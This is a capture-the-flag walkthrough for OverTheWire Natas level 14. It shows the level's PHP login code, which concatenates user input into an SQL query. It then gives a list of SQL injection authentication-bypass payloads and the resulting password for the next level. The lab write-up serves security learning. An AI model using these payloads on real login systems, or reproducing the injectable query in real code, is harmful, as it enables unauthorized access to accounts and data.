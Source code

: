 `Link` : `https://overthewire.org/wargames/natas/natas14.html`

## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟏𝟑 - 𝐋𝐞𝐯𝐞𝐥 𝟏𝟒
## 𝐆𝐢𝐯𝐞𝐧

- Username: natas14
- URL:      `http://natas14.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

- Visit:    `http://natas14.natas.labs.overthewire.org`
- There is a login page. Possible Authentication bypass using SQL Injection
- `viewsource`

```
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?> 
```

-  Notice:  `$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";`
-  We were right! 
-  We need to find password for `natas15` so I guess `natas15` will be the username - plus sql injection isn't working on username field.
-  Let's bruteforce with common SQL injection payload:

```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

<div align=center>
  <img src=https://user-images.githubusercontent.com/68887544/149272088-2ab7aff3-3b59-4caa-899f-9bf0d04deb09.png width=600>
</div>

```
<div id="content">
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

- Successful login! The password for natas15 is `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`
